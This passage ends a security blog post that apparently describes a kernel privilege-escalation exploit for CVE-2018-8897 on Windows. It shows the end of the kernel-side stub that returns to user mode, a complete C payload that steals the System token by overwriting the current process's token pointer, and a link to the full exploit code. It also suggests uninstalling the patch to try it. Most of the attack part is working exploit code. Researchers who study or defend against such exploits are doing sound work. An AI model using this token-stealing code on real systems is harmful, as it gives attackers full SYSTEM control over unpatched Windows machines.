 ```

  // ------ KERNEL CODE ------

  __swapgs();

  ( ( ISR_STACK* ) IsrStackIterator )->RIP += 1;
  ( fnIRetToVulnStub( KStub ) )( Cr4Old, IsrStackIterator, ContextBackup );
}

```

We can’t restore any registers so we will make the thread responsible for the execution of vulnerability store the context in a global container and restore from it instead. Now that we executed our code and returned to user-mode, our exploit is complete!

Let’s make a simple demo stealing the System token:

```
uint64_t SystemProcess = *k_PsInitialSystemProcess;
uint64_t CurrentProcess = k_PsGetCurrentProcess();

uint64_t CurrentToken = k_PsReferencePrimaryToken( CurrentProcess );
uint64_t SystemToken = k_PsReferencePrimaryToken( SystemProcess );

for ( int i = 0; i < 0x500; i += 0x8 )
{
  uint64_t Member = *( uint64_t * ) ( CurrentProcess + i );

  if ( ( Member & ~0xF ) == CurrentToken )
  {
    *( uint64_t * ) ( CurrentProcess + i ) = SystemToken;
    break;
  }
}


k_PsDereferencePrimaryToken( CurrentToken );
k_PsDereferencePrimaryToken( SystemToken );

```

![](https://blog.can.ac/wp-content/uploads/2018/05/K1DL2.png)

![](https://blog.can.ac/wp-content/uploads/2018/05/aF6dL.png)

Complete implementation of the concept can be found at: [https://github.com/can1357/CVE-2018-8897](https://github.com/can1357/CVE-2018-8897)

Credits:

*   [@0xNemi](https://twitter.com/0xNemi) and [@nickeverdox](https://twitter.com/nickeverdox) for finding the vulnerability

_P.S.: If you want to try this exploit out, you can uninstall the [relevant update](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8897) and give it a try!_

_P.P.S.: Before you ask why I don’t use intrinsics to read/write GSBASE, it is because MSVC generates invalid code:_

![](https://blog.can.ac/wp-content/uploads/2018/05/ivP9N.png)

![](https://blog.can.ac/wp-content/uploads/2018/05/4rKSb.png)